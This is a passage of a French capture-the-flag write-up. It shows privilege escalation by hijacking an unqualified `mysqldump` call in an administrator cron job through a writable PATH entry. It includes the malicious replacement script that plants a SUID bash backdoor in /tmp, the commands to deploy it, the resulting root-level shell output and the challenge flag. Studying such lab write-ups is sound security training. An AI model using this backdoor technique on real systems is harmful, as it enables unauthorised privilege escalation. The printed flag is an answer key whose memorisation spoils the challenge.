 Ici l'administrateur utilise l'outil `mysqldump` pour effectuer une copie de la base de donnée toute les minutes. Le chemin absolu n'est pas spécifié et la variable `$PATH` commence par le dossier utilisateur `/home/robert`. L'écriture d'un binaire `mysqldump` dans ce dossier sera donc priorisé au binaire original et executé sous les droits `administrator` toutes les minutes.

Nous allons ici écrire un binaire `mysqldump` malveillant permettant de créer une backdoore `administrator` grace à la crontab. Nous utiliserons une copie SUID du binaire /bin/bash (il est également possible d'ajouter une clé SSH à l'utilisateur administrator, ou bien meme de copier le fichier de flag).

Le contenu du binaire `mysqldump` est le suivant:

```bash
#!/bin/bash
cp /bin/bash /tmp/admin_bash
chmod +s /tmp/admin_bash
```

Ce dernier doit être placé dans le dossier home de l'utilisateur robert, en accord avec la variable PATH précédemment identifié.

```bash
scp mysqldump robert@127.0.0.1:~/
chmod +x mysqldump
```

Une fois la cron executé (toute les minutes), on observe la création d'un binaire SUID `admin_bash` dans le dossier `/tmp` :

```bash
ls -la /tmp
```
```
total 1220
drwxrwxrwt 1 root          root             4096 Mar 12 19:13 .
drwxr-xr-x 1 root          root             4096 Mar 12 19:00 ..
-rwsr-sr-x 1 administrator administrator 1234376 Mar 12 19:13 admin_bash
-rw-r--r-- 1 administrator administrator       0 Mar 12 19:13 backup.sql
-rw------- 1 root          root                0 Mar 10 18:25 tmp.qgg46h67F1
```

L'utilisateur peut maintenant lancer un shell sous les droits `administrator` avec la commande suivante: 

```bash
/tmp/admin_bash -p
admin_bash-5.1$ id
uid=1002(robert) gid=1002(robert) euid=1001(administrator) egid=1001(administrator) groups=1001(administrator),1002(robert)
admin_bash-5.1$ cat /flag_root.txt 
CestUnParcAHuîtres}
```


# Flag

`BZHCTF{LeMouchoirCestUnParcAHuîtres}`
